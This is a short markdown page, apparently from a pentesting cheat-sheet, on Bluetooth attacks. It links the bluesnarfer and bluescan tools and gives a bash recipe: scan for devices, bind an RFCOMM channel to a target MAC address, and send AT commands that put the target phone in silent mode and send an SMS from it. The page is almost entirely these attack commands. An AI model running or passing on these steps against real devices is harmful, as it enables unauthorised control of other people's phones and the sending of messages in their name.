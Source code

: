 # 🫐 Bluetooth

{% embed url="https://github.com/kimbo/bluesnarfer" %}

```bash
# scan peripherals
service bluetooth start
hcitool scan
# or
bluetoothctl scan on

# connect
rfcomm bind 0 $mac $channel_nb
rfcomm bind 0 $mac 6
# connect to the peripheral on channel 6

# AT terminal 
AT*ESIL=1 # activates silence mode
AT+CMGS="+336875648" # sends SMS

```

{% embed url="https://github.com/fO-000/bluescan" %}
